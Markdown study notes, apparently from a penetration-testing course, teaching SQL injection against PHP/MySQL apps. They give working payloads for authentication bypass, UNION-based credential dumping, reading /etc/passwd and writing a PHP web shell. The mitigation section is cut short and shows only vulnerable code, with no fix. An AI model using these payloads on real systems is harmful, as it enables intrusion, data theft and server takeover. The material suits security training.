- [SQL Injection (SQLi)](#sql-injection-sqli)
  - [Use of SQL in Web Apps](#use-of-sql-in-web-apps)
  - [SQLi](#sqli)
  - [Syntax Errors](#syntax-errors)
  - [Types of SQLi](#types-of-sqli)
  - [Subverting Query Logic](#subverting-query-logic)
    - [Authentication Bypass](#authentication-bypass)
    - [SQLi Discovery](#sqli-discovery)
    - [OR Injection](#or-injection)
    - [Auth Bypass with OR Operator](#auth-bypass-with-or-operator)
  - [Using comments](#using-comments)
    - [Auth Bypass with comments](#auth-bypass-with-comments)
      - [Paranthesis](#paranthesis)
  - [UNION Clause](#union-clause)
    - [Even columns](#even-columns)
    - [Uneven Columns](#uneven-columns)
  - [UNION Injection](#union-injection)
    - [Detect number of columns](#detect-number-of-columns)
      - [Using ORDER BY](#using-order-by)
      - [Using UNION](#using-union)
    - [Location of Injection](#location-of-injection)
    - [Database Enumeration](#database-enumeration)
      - [MySQL Fingerprinting](#mysql-fingerprinting)
      - [INFORMATION\_SCHEMA Database](#information_schema-database)
      - [SCHEMA](#schema)
      - [TABLES](#tables)
      - [COLUMNS](#columns)
      - [Data](#data)
    - [Reading \& Writing Files](#reading--writing-files)
      - [DB User](#db-user)
      - [User Privileges](#user-privileges)
      - [LOAD\_FILE](#load_file)
      - [Write File Privileges](#write-file-privileges)
        - [secure\_file\_priv](#secure_file_priv)
      - [SELECT INTO OUTFILE](#select-into-outfile)
      - [Writing Files through SQLi](#writing-files-through-sqli)
      - [Writing a Web Shell](#writing-a-web-shell)
  - [SQLi Mitigation](#sqli-mitigation)
    - [Input Sanitization](#input-sanitization)
      - [Input Validation](#input-validation)
      - [User Privileges](#user-privileges-1)
      - [Web Application Firewall (WAF)](#web-application-firewall-waf)
      - [Paramterized Queries](#paramterized-queries)

---

# SQL Injection (SQLi)

... refers to attacks against relational databases such as MySQL. An SQLi occurs when a malicious user attempts to pass input that changes the final SQL query sent by the web application to the database, enabling the user to perform other unintended SQL queries directly against the database.

## Use of SQL in Web Apps

Once a DBMS is installed and set up on the back-end server and is up running, the web app can start utilizing it to store and retrieve data.

For example, within a PHP web app, you can connect to your database, and start using the MySQL database through MySQL syntax, right within PHP. You can then print it to the page or use it in any other way.

```php
$conn = new mysqli("localhost", "root", "password", "users");
$query = "select * from logins";
$result = $conn->query($query);

while($row = $result->fetch_assoc() ){
	echo $row["name"]."<br>";
} // prints all returned results of the SQL query in new lines

```

Web apps also usually use user-input when retrieving data. For example, when a user uses the search function to search for other users, their search input is passed to the web app, which uses the input to search within the database.

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

## SQLi

... occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

No input sanitization example:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

In this case you can add a single quote ```'```, which will end the user-input field, and after it, you can write actual SQL code. If you search for ```1'; DROP TABLE users;```, the search input would be:

```sql
select * from logins where username like '%1'; DROP TABLE users;'
```

Once the query is run, the table will get deleted.

## Syntax Errors

The previous example of SQLi would return an error.

```php
Error: near line 1: near "'": syntax error
```

This is because of the last trailing character, where you have a single quote that is not closed, which causes a SQL syntax error when executed. In this case, you had only one trailing character, as your input from the search query was near the end of the SQL query. However, the user input usually goes in the middle of the SQL query, and the rest of the original SQL query comes after it.

To have a successful injection, you must ensure that the newly modified SQL query is still valid and does not have any syntax errors after your injection.

One answer to that problem is using **comments**. Another is to make the query syntax work by passing in multiple single quotes.

## Types of SQLi



- **In-Band** (_the output of both the intended and the new query may be printed directly on the front end_)
  - **Union Based** (_you may have to specify the exact location, so the query will direct the output to be printed there_)
  - **Error Based** (_is used when you can get the PHP or SQL erros in the front-end, so that you may intentionally cause an SQL error that returns the output of your query_)
- **Blind** (_you may not get the output printed, so you may utilize SQL logic to retrieve the output character by character_)
  - **Booleand Based** (_you can use SQL conditional statements to control whether the page returns any output at all if your condition statements returns 'true'_)
  - **Time Based** (_you use SQL conditional statements that delay the page response if the conditional statement returns 'true' using the 'Sleep()' function_)
- **Out-of-Band** (_you may not have direct access to the output whatsoever, so you may have to direct the output to a remote location, and then attempt to retrieve it from there_)

## Subverting Query Logic

### Authentication Bypass



You can log in with the admin creds ```admin:p@ssw0rd```.



The current SQL query being executed:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

The page takes in the credentials, then uses the AND operator to select records matching the given username and password. If the MySQL database returns matched records, the credentials are valid, so the PHP code would evaluate the login attempt condition as 'true'. If the condition evaluates to 'true', the admin record is returned. and your login is validated.

Example with wrong creds:



### SQLi Discovery

Before you start subverting the web app's logic and attempting to bypass the authentication, you first have to test whether the login form is vulnerable to SQLi. To do that, you can try to add one of the below payloads after your username and see if it causes any errors or changes how the page behaves:

| Payload | URL Encoded |
| ------- | ----------- |
| ```'``` | %27 |
| ```"``` | %22 |
| ```#``` | %23 |
| ```;``` | %3B |
| ```)``` | %29 |

Example for ```'```:



The quote you entered resulted in an odd number of quotes, causing a syntax error. One option would be to comment out the rest of the query and write the remainder of the query as part of your injection to form a workin query. Another option is to use an even number of quotes within your injected query, such that the final query would still work.

### OR Injection

You would need the query always to return true, regardless of the username and password entered, to bypass the authentication. To do this, you can abuse the OR operator in your SQLi.

An example of a condition that will always turn true is '1'='1'. However, to keep the SQL query working and keep an even number of quotes, you have to remove the last quote, so the remaining single quote from the original query would be in its place.

```sql
admin' or '1'='1
```

Inside the final query, it would look like:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

The AND operator will be evaluated first, and it will return false. Then, the OR operator would be eveluated, and if either of the statements is true, it would return true. Since 1=1 always returns true, this query will return true, and it will grant us access.

### Auth Bypass with OR Operator



You were able to log in successfully as admin. However, the login fails when using 'notAdmin' as a user, since that user does not exist in the table and therefore resulted in a fals query overall.

To successfully login once again, you will need an overall true query. This can be achieved by injecting an OR condition into the password field, so it will always return true.


The additional OR condition resulted in a true query overall, as the WHERE clause returns everything in the table, and the user present in the first row is logged in. In this case, as both conditions will return true, you do not have to provide a test username and password and can directly start with ```'``` injection and log in with just ```' or '1'='1```.

## Using comments


Just like any other language, SQL allows the use of comments as well. Comments are used to document queries or ignore a certain part of the query. You can use two types of line comments with MySQL ```--``` and ```#```, in addition to an in-line comment ```/**/```.

```bash
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

> [!NOTE]
> In SQL, using two dashes is not enough to start a comment. There has to be an empty space after them, so the comment starts with '-- '. This is sometimes URL encoded as '--+', as spaces in URLs are encoded as '+'.

```#``` example:

```bash
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'

+----+----------+----------+---------------------+
| id | username | password | date_of_joining     |
+----+----------+----------+---------------------+
|  1 | admin    | p@ssw0rd | 2020-07-02 00:00:00 |
+----+----------+----------+---------------------+
1 row in set (0.00 sec)
```

### Auth Bypass with comments

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

You can see from the syntax highlighting, the username is now admin, and the remainder of the query is now ignored as a comment.



#### Paranthesis

SQL supports the usage of pranthesis if the application needs to check for particular conditions before others. Expressions within the paranthesis take precedence over other operators and evaluated first.



The login failed due to a syntax error, as a closed one did not balance the open paranthesis. To execute the query successfully, you will have to add a closing paranthesis.


The query was successful, and you logged in as admin. The final query as a result of the input is:

```sql
SELECT * FROM logins where (username='admin')
```

## UNION Clause

... is used to combine results from multiple SELECT statements. This means that through a UNION injection, you will be able to SELECT and dump data from all across the DBMS, from multiple tables and databases.

```bash
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

> [!NOTE]
> The data types of the selected columns on all positions should be the same

### Even columns

A UNION statement can only operate on SELECT statements with an equal number of columns. Otherwise:

```bash
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

The above query results in an error, as the first SELECT returns one column and the second SELECT returns two.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return ```username``` and ```password``` entries from the ```passwords``` table, assuming the ```products``` table has two columns.

### Uneven Columns

You will find out that the original query will usually not have the same number of columns as the SQL query you want to execute, so you will have to work around that. You can put junk data for the remaining required columns so that the total number of columns you are UNIONing with the remains the same as the original query.

> [!NOTE]
> When filling other columns with junk data, you must ensure that the data type matches the columns data type, otherwise the query will reutrn an error.

> [!TIP]
> For advanced SQLi, you may want to use 'NULL' to fill other columns, as 'NULL' fits all data types.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If you had more columns in the table of the original query, you have to add more numbers to create the remaining required columns.

```sql
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

## UNION Injection

### Detect number of columns

#### Using ORDER BY

You have to inject a query that sorts the results by a column you specified until you get an error saying the column specified does not exist.

For example, you can start with ```order by 1```, sort by the first column, and succeed, as the table must have at least one column. Then you will do ```order by 2``` and then ```order by 3``` until you reach a number that returns an error, or the page does not show any output, which means that this column number does not exist. The final successful column you successfully sorted gives you the total number of columns.

```sql
' order by 1-- -
```

#### Using UNION

The other method is to attempt a UNION injection with a different number of columns until you successfully get the results back. The first method always returns the results until you hit an error, while this method always gives an error until you get success. You can start by injecting a 3 column UNION query:

```sql
cn' UNION select 1,2,3-- 
```

You get an error saying that the number of columns don't match. Now you can try four columns:

```sql
cn' UNION select 1,2,3,4-- 
```

This time you successfully get the results, meaning once again that the table has 4 columns. You can use either method to determine the number of columns.

### Location of Injection

While a query may return multiple columns, the web app may only display some of them. So, if you inject your query in a column that is not printed on the page, you will not get its output. This is why you need to determine which columns are printed to the page, to determine where to place your injection.

It is very common that not every column will be displayed back to the user. For example, the ID field is often used to link different tables together, but the user doesn't need to see it. This tells you that columns 2, 3, and 4 are printed to place your injection in any of them.

This is the benefit of using numbers as your junk data, as it makes it easy to track which columns are printed, so you know at which column to place your query. To test that you get actual data from the database, you can use the ```@@version``` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- 
```


### Database Enumeration

#### MySQL Fingerprinting

Before enumerating the database, we usually need to identify the type of DBMS you are dealing with. This is because each DBMS has different querries, and knowing what it is will help you know what queries to use.

Initial guesses:
- If webserver = Apache / Nginx
  - likely MySQL
- if webserver = IIS
  - MSSQL

For MySQL:

| Payload | When to Use | Expected Output | Wrong Output |
| ------- | ----------- | --------------- | ------------ |
| **SELECT @@version** | when you have full query output | MySQL Version 'i.e. ```10.3.22-MariaDB-1ubuntu1```' | in MSSQL it returns MSSQL version; error with other DBMS |
| **SELECT POW(1,1)** | when you only have numeric output | ```1``` | error with other DBMS |
| **SELCECT SLEEP(5)** | blind / no output | delays page response for 5 seconds and returns 0 | will not delay with other DBMS |

#### INFORMATION_SCHEMA Database

To pull data from tables using UNION SELECT, you need to properly from you SELECT queries. To do so, you need the following information:

- list of databases
- list of tables within each database
- list of columns within each table

This is where you can utilize the **INFORMATION_SCHEMA Database**. It contains metadata about the database and tables present on the server. This database plays a crucial role while exploiting SQLi vulnerabilities. As this is a different database, you cannot call its tables directly with a SELECT statement. If you only specify a table's name for a SELECT statement, it will look for tables within the same database.

So, to reference a table present in another DB, you can use the ```.``` operator. For example, to SELECT a table ```users``` present in a database named ```my_database```, you can use:

```sql
SELECT * FROM my_database.users;
```

#### SCHEMA

To start your enumeration, you should find what databases are available on the DBMS. The table SCHEMATA in the INFORMATION_SCHEMA database contains information about all databases on the server. It is used to obtain database names so you can then query them. The SCHEMA_NAME column contains all the database names currently present.

```bash
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

The SQLi looks like that:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```

And you get a result like this:



You can see two databases ```ilfreight``` and ```dev```. To find out which database the web app is running to retrieve ports data from, you can use ```SELECT database()```.

```sql
cn' UNION select 1,database(),2,3-- 
```

#### TABLES

Before you dump data from the ```dev``` database, you need to get a list of the tables to query them with a SELECT statement. To find all tables within a database, you can use the TABLES table in the INFORMATION_SCHEMA Database.

The TABLES table contains information about all tables throughout the database. This table contains multiple columns, but you are interested in the TABLE_SCHEMA and TABLE_NAME columns. The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to. This can be done like this:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- 
```


> [!NOTE]
> Added a (_where table_schema='dev'_) condition to only return tables from the 'dev' database, otherwise you would get all tables in all databases, which can be many

#### COLUMNS

To dump the data of the ```credentials``` table, you first need to find the column names in the table, which can be found in the COLUMNS table in the INFORMATION_SCHEMA database. The COLUMNS table contains information about all columns present in all the databases. This helps you find the column names to query a table for. The COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this.

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- 
```



The table has two columns named ```username``` and ```password```.

#### Data

Now that you have all the information, you can form your UNION query to dump data of the ```username``` and ```password``` columns from the ```credentials``` table in the ```dev``` database. You can place ```username``` and ```password``` in place of columns 2 and 3:

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- 
```



### Reading & Writing Files

In addition to gathering data from various tables and databases within the DBMS, a SQLi can also be lveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

> [!NOTE]
> Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation.

#### DB User

First, you have to determine which user you are within the database. While you do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If you do have DBA privileges, then it is much more probable that you have file-read privileges. If you don't, then you have to check your privileges to see what you can do. To find your current DB user:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

So the payload will be:

```sql
cn' UNION SELECT 1, user(), 3, 4-- 
```


#### User Privileges

You can now start looking for what privileges you have with that user. First of all, you can test if you have super admin priviliges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

So the payload will be:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 
```

> [!TIP]
> If you had many users within the DBMS, you can add ```WHERE user="root"``` to only show privileges for your current user root.

A possible result can look like this:



The query returned ```Y```, which means YES, indicating superuser privileges. You can also dump other privileges you have from the schema:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 
```

Again, being more precise:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- 
```


You can see that the ```FILE``` privilegeis listed for your user, enabling you to read files and potentially even write files.

#### LOAD_FILE

The ```LOAD_FILE()``` function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```



#### Write File Privileges

To be able to write files to the back-end server using a MySQL database, you require:

1. User with ```FILE``` privilege enabled
2. MySQL gloabl ```secure_file_priv``` variable not enabled
3. Write access to the location you want to write to on the back-end server

##### secure_file_priv

... is a variable used to determine where to read/write files from. An empty value lets you read files from the entire file system. Otherwise, if a certain directory is set, you can only read from the folder specified by the variable. On the other hand, ```NULL``` means you cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets you read/write to any file if the user has the ```FILE``` privilege. However, MySQL uses ```/var/lib/mysql-files``` as the default folder. This means reading files through a MySQL injection isn't possible with default settings. Even worse, some modern configurations default to ```NULL```, meaning that you cannot read/write files anywhere within the system.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

All variables and most configurations are stored within the INFORMATION_SCHEMA database. MySQL global variables are stored in a table called ```global_variables```, and as per the documentation, this table has two columns ```variable_name``` and ```variable_value```.

You have to select these two columns frm that table in the INFORMATION_SCHEMA database. There are hundreds of global variables in a MySQL configuration, and you don't want to retrieve all of them. You can filter the results to only show the ```secure_file_priv``` variable, using the WHERE clause.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So the payload will be:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- 
```


```secure_file_priv``` is empty, meaning you can read/write files to any location.

#### SELECT INTO OUTFILE

... can be used to write data from select queries into files. This is usually used for exporting data from tables.

Usage example:

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

It is also possible to directly SELECT strings into files, allowing you to write arbitrary files to the back-end server.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

> [!TIP]
> Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

#### Writing Files through SQLi

First you write a text file to the webroot and verify if you have write permissions.

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- 
```

> [!NOTE]
> To write a web shell, you must know the base web directory for the web server. One way to find it is to use ```load_file``` to read the server config, like Apache's config found at ```/etc/apache2/apache2.conf```, Nginx's config at ```/etc/nginx/nginx.conf```, IIS config at ```%WinDir%System32\Inetsrv\Config\ApplicationHost.config```. You can also try wordlists to fuzz: [Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) and [Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

If there are no errors, that indicates that the query was succeeded. But can check too:


#### Writing a Web Shell

Having confirmed write permissions, you can go ahead and write a PHP web shell to the webroot folder.

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```

If there are no errors, you can now browse to ```/shell.php``` and execute commands via the parameter ```0```, with ```?0=id``` in your URL.



## SQLi Mitigation

### Input Sanitization

```php
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username='". $username. "' AND password = '" . $password . "';" ;
  echo "Executing query: " . $query . "<br /><br />";

  if (!mysqli_query($conn ,$query))
  {
          die('Error: ' . mysqli_error($conn));
  }

  $result = mysqli_query($conn, $query);
  $row = mysqli_fetch_array($result);
<SNIP>
```

